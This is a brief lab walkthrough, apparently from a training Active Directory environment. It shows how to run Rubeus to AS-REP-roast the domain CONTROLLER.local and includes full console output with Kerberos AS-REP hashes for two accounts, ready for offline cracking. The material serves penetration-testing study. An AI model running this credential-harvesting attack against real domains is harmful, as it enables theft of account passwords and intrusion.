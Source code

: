 ### Dumping KRBASREP5 Hashes w/ Rubeus (local)

1. `cd Downloads` – navigate to the directory Rubeus is in
2. `Rubeus.exe asreproast` – This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

```bash
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe asreproast

(_____ \      \| \|  
_____) )_   _\| \|__  _____ _   _  ___  
\|  __  /\| \| \| \|  _ \\| ___ \| \| \| \|/___)  
\| \|  \ \\| \|_\| \| \|_) ) ____\| \|_\| \|___ \|  
\|_\|   \|_\|____/\|____/\|_____)____/(___/

v1.5.0

[*] Action: AS-REP roasting

[*] Target Domain          : CONTROLLER.local

[*] Searching path ‘LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local’ for AS-REP roastable users  
[*] SamAccountName         : Admin2  
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local  
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::b1a8:fc88:ce2d:965%5)  
[*] Building AS-REQ (w/o preauth) for: ‘CONTROLLER.local\Admin2’  
[+] AS-REQ w/o preauth successful!  
[*] AS-REP hash:

$krb5asrep$Admin2@CONTROLLER.local:D74666FC02C59A3D6224C97F4214433F$F2DC7E041BDD  
4BE66D11CEFF49EDB1BF011CCAF025458A2D5326CAA1EB1B26DEB7DDC246A5E8CBEBECAA8674EC43  
EFE5632ECC8EAF516DC6108C44A8E6305658C9A14998C173F3CC0A30BF2474DD7F067CF1EC33C859  
E2FBE4C9767DCFCF5DB8147AFA5F08CFEC5ECCF9FA9839D0C8C8475872951BDC28527567210F0FE0  
14B38CD1A4752E2ED8F442C92E28BA79CFCB0699AAEE8394071A53906BE09D02DA7F1214C279D845  
5EAA8045C16BBE40ACA508DA385B622A2A0F538A25911885269362B0DDF993F684FB850D77BEFFCA  
F992F247AF0B48B76928D9D3E99C8E5D315EA38A61C0C35D62581C2A166ED8D0504744CDCB20

[*] SamAccountName         : User3  
[*] DistinguishedName      : CN=User-3,CN=Users,DC=CONTROLLER,DC=local  
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::b1a8:fc88:ce2d:965%5)  
[*] Building AS-REQ (w/o preauth) for: ‘CONTROLLER.local\User3’  
[+] AS-REQ w/o preauth successful!  
[*] AS-REP hash:

$krb5asrep$User3@CONTROLLER.local:A82390E1187D686737BF6D6D0875ACE5$A889A1EB5F300  
A26BCD9B6024C52802099A99AEBCABEF375C369085B1A63784E9949704D7CCA8C429EB91A6CEAA53  
73FAB913D550D354F263FF470D1CF32ACBA7F06EF58DE9DC3886BCC00521E735DFB2031231D37A35  
D1DF5E3F5E2BAEB71AF93B05846A07FA84FAA1C454611F4220BB3C75B5AC9467B58C8BC5BC9CC58B  
E79CDF3031FB0509C2CE269EBDE76978001E4BE655F1E357D704FF999958848BAEE3DCBF05ADA5A0  
A0D8A1FA3D35410516E84900A8CC1B4DA386B9C87C561F2836DAEAB18544CB34D0573A19E8CF7AD6  
332FB8682930E2FB33DC66A52018BB29E0AC6C22C5A9BF899BF0F86B7AC2948C52B87BB228F

C:\Users\Administrator\Downloads>

```
